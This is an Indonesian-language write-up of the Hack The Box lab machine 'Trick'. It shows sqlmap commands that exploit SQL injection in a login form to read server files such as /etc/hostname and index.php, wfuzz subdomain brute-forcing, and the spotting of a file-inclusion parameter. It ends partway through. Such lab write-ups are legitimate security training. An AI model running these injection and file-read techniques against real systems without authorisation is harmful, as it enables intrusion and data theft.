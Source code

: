 #### Setelah menambahkan host, kami pergi ke domain dan menemukan login
![Form Login](https://media.discordapp.net/attachments/740245586095112242/1011144342162898994/unknown.png "Form Login")

#### Kita bisa bermain dengan sqlmap dan setelah beberapa saat kita melihat bahwa kita bisa mendapatkan file dari mesin

```terminal
❯ sqlmap --url "preprod-payroll.trick.htb/ajax.php?action=login" --data "username=test&password=test" --file-read "/etc/hostname" --batch
<------------------------------------------------------------------------------------------------>
[INFO] retrieved: 6
[INFO] the local file '~/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_hostname' and the remote file '/etc/hostname' have the same size (6 B)
files saved to [1]:
<------------------------------------------------------------------------------------------------>
❯ cat ~/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_hostname
trick
```

#### Karena kami tidak menemukan apa pun, kami akan mencari lebih banyak domain, untuk ini kami membuat kamus yang dimulai dengan "preprod-" dan menerapkan brute force

```terminal
❯ sed 's/^/preprod-/' /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt > dictionary
❯ wfuzz -c -w ./dictionary -H "Host: FUZZ.trick.htb" -u 10.10.11.166 -t 100 --hl 83
Target: http://10.10.11.166/
Total requests: 4990

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000255:   200        178 L    631 W      9660 Ch     "preprod-marketing"
```

#### Sekarang di domain "preprod-marketing.trick.htb" kami menemukan beberapa bagian

![Menu Bar](https://media.discordapp.net/attachments/740245586095112242/1011146592138567720/unknown.png "Menu Bar")

#### Kami mengklik satu dan melihat bahwa itu dikelola dengan parameter "page="

![Parameter Page](https://media.discordapp.net/attachments/740245586095112242/1011147010784637039/unknown.png "Parameter Page")

#### Kita bisa memikirkan lfi tetapi memiliki perlindungan, dengan sqlmap kita dapat membaca index.php

```terminal
❯ sqlmap --url "preprod-payroll.trick.htb/ajax.php?action=login" --data "username=test&password=test" --file-read "/var/www/market/index.php" --batch
<--------------------------------------------------------------------------------------------------->
[INFO] retrieved: 194
[INFO] the remote file '/var/www/market/index.php' is larger (194 B) than the local file '~/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_var_www_market_index.php' (193B)
files saved to [1]:
<--------------------------------------------------------------------------------------------------->
❯ cat ~/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_var_www_market_index.php
<?php
$file = $_GET['page'];
```